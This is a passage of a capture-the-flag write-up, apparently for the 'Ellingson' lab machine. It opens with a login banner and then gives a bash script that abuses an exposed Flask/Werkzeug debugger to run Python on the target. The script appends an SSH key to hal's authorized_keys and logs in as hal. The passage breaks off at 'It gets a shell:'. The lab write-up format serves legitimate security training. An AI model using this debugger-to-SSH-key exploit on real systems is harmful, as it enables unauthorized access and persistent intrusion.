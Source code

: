       System load:  0.92               Processes:            101
      Usage of /:   23.5% of 19.56GB   Users logged in:      0
      Memory usage: 13%                IP address for ens33: 10.10.10.139
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    163 packages can be updated.
    80 updates are security updates.
    
    
    Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
    hal@ellingson:~$ 
    

### Script It

I checked out the requests that the debugger sends in Burp and determined how
I could send the same commands via a script. The following script will get a
shell as hal by adding my public key to the `authorized_keys` file, connecting
with ssh, and then removing that entry from the `authorized_keys` file.

    
    
    #!/bin/bash
    
    KEY=/root/id_rsa_generated
    PUB_KEY=$(cat $KEY.pub)
    TARGET_PATH=/home/hal/.ssh/authorized_keys
    
    SECRET=$(curl -s 'http://10.10.10.139/articles/4'| grep SECRET | cut -d'"' -f2)
    FRAME=$(curl -s 'http://10.10.10.139/articles/4'| grep 'id="frame' | head -1 | cut -d- -f2 | cut -d'"' -f1)
    echo "[+] Got frame and secret from debug page"
    
    function run_cmd {
        curl -s -G -X GET "http://10.10.10.139/articles/4?__debugger__=yes&frm=$FRAME&s=$SECRET" --data-urlencode "cmd=$1" -x 127.0.0.1:8080 | grep -v ">>>" > /dev/null
    }
    
    echo "[*] Copying ${TARGET_PATH} to ${TARGET_PATH}.bak"
    run_cmd "import shutil"
    run_cmd "shutil.copyfile(\"${TARGET_PATH}\", \"${TARGET_PATH}.bak\")"
    echo "[*] Writing $key.pub to $TARGET_PATH"
    run_cmd "f=open(\"${TARGET_PATH}\", 'a')"
    run_cmd "f.write(\"\n${PUB_KEY}\")"
    run_cmd "f.close()"
    
    echo "[*] Connecting to ellingson as hal"
    echo "[*] Should reset $TARGET_PATH to original"
    ssh -t -i /root/id_rsa_generated hal@10.10.10.139 "mv ${TARGET_PATH}.bak ${TARGET_PATH}; bash"
    

It gets a shell:

    
